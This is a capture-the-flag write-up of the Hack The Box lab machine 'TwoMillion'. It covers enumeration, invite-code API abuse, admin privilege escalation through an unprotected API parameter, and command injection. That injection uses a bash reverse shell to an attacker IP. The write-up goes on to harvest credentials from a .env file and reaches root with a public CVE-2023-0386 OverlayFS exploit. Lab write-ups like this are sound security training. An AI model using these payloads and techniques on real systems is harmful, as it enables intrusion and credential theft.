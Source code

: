 <h2>Target: 10.10.11.221  TwoMillion</h2>
<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.11.221 -p 22,80 --min-rate=5000 |grep open|awk  -F '/' '{print $1}'| tr '\n' ',' <br>
Nmap returns open ports 22,80 <br><br>

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.11.221 -p 22,80 --min-rate=5000 -sC -sV -oN nmap-2million

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/d8ada3d7-f654-4b83-a718-5b2fc7a98969)
 
Nmap shows a redirect to http://2million.htb.  To enable this redirect, enter into the file /etc/hosts: 10.10.11.221  2million.htb

Step 4: Now that the redirect will work, run nmap again: nmap -Pn 10.10.11.221 -p 22,80 --min-rate=5000 -sC -sV -oN nmap-2million

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9c8e8533-4af5-47e4-81f3-7fa9280848a9)

Step 5: Navigating to port 80 shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6ae0c5fc-b635-4d7e-a083-a6239d449541) 

Scrolling through the page we find a directory of /invite. Navigating to the page http://2million.htb/invite shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0eb9459e-cb46-498c-ae6b-73d78a3a11ae)
 
We need to get an ‘Invite Code’ in order to sign up. 

Step 6: Reviewing the source code to http://2million.htb/invite shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6a098ed3-ba93-419e-9dc6-11a41fd63d3e)
  
Inviteapi.min.js seems interesting.  Navigating to http://2million.htb/js/inviteapi.min.js shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4d3dd1a8-87f6-4b23-bcfa-3ecf1a7b20db)
 
Step 7: This javascript code is a bit hard to read.  Open a javascript beautifier to make it easier to understand the code:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e20c68f1-51b9-4427-be89-cffc870011cf)
  
This shows a POST request for a url of http://2million.htb/api/v1/invite/how/to/generate.  Using burp suite issue this request:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e5efc738-5fed-4480-af4a-777087418468)
 
The response shows an encrypted message using ROT13.  

Step 8: Go to cyberchef to decrypt the message.  Copy the encrypted message and paste it into cyberchef:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6bb48889-424d-46b5-80ad-3f1e0fc116eb)
   
The decrypted message shows a POST request for /api/v1/invite/generate.  

Step 9: Using burpsuite, issue the POST request /api/v1/invite/generate: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ea6a1498-7b66-4f71-a96f-0b53a5d4b41a)
 
The response shows a base64 encoded generated code.  Decode the code using burpsuite by highlighting the code: 4T8L8-FVZPK-5S1F4-MX7QD

Step 10: Enter the decoded code into the /invite page: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/59852658-d7a1-42d1-a5ae-ae91eb16945f)
 
Register a user and login.  After logging in the page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/21465cb0-0eff-45c7-8976-3248f0297574)
  
Step 11: Using burpsuite, issue a GET request for /api/v1:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/b00fb8a9-3e89-409d-9aeb-a2ad7326f446)
 
The response reveals different directories and requests we can make.  

Step 12: Using burpsuite, issue the PUT request to /api/v1/admin/settings/update:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/461eb142-2402-4bea-a146-739ba1924bc1)

The response indicates we need an email.  Enter our username email we created when we registered an account (I used test@a.com):

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e8474684-33a8-440d-857d-5831952316d1)

The response indicates we need to add the parameter is_admin:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0ac15205-9a9c-4346-aee1-f0f099ac71f9)

The response tells us that we need to add a 0 or 1 for the is_admin value (0 means the user is not an admin, 1 means the user is an admin):

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/3ce2d7e6-206d-45e8-9b12-7a0451b9899d)

It worked.  We have elevated our user to an admin privileged account.  

Step 13: Now that our user has admin privileges, let’s try to navigate to another one of the found directories in /api/v1 (see step 11).  Issue a POST request to /api/v1/admin/vpn/generate:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/cbd3465a-9176-46cc-bbed-e3c90c7a0df1)

The response shows that this request generates a vpn.  Check if we can get command injection to get a reverse shell using this request.  First, open a netcat listener to catch the reverse shell:  nc -lvnp 443

Next, add to the ‘username’ value the following: $(bash -c 'bash -i >& /dev/tcp/10.10.14.218/443 0>&1')

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5633aa52-d3ca-4036-880a-394e734780c8)
 
We get a shell on our netcat listener as user www-data.
_______________________________________________
<b>Lateral Movement:</b><br>
Step 1: Read the file /var/www/html/.env: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/f097ab38-c5e2-41c8-a328-6771f32fc53f)
  
The file .env shows a username ‘admin’ and password ‘SuperDuperPass123’ .

Step 2: Check what users are on the target shell: cat /etc/passwd |grep sh

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6b5a21c1-d87c-4d44-9ba1-f9a3d54b8f9e)
 
The file /etc/passwd shows there’s a username on the target shell called ‘admin’.  

Step 3: Change to user admin: su admin → enter the password when prompted

We have shell as user admin.  We can get the flag in /home/admin/user.txt.
___________________________________
<b>Privilege Escalation:</b><br>
Step 1: Read the file /var/mail/admin: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4da34dfb-77e0-4767-93db-fbf30de4dbd4)
  
The message indicates that the target is probably vulnerable to OverlayFS.  

Step 2: There are mulitple OverlayFS exploits.  To figure out which exploit will work for our target we will check the target system information: uname -a

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0a57f978-3707-4854-b708-f3adc00fa2c2)

The response to ‘uname -a’ command shows that the target is running on 2022.

Step 3: Google search ‘overlayfs 2022 exploit’.  The results show plenty of articles on this.  We will choose https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386.  This page has a proof of concept linking to a github page:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8e33e738-5765-47cf-b5ca-56cfa6af59dd)
 
Step 3: Download the github page: git clone https://github.com/xkaneiki/CVE-2023-0386/

Upload ‘CVE-2023-0386’ to the target.  

Step 4: Following the proof of concept instructions, on the target shell in the ‘CVE-2023-0386’ directory, run the command: make

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4003d230-27fd-4b71-80a9-469e2ac27d3e)

Step 5: On the target shell in the ‘CVE-2023-0386’ directory, run the command: ./fuse ./ovlcap/lower ./gc

Step 6: Open a 2nd target shell as user admin: ssh admin@2million.htb → enter the password when prompted.

In this 2nd target shell as user admin, go to the directory ‘CVE-2023-0386’ and run the command: ./exp

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6618e39f-6b60-457e-8b8e-b0e914638fe5)

We have shell as root.  We can get the flag in /root/root.txt

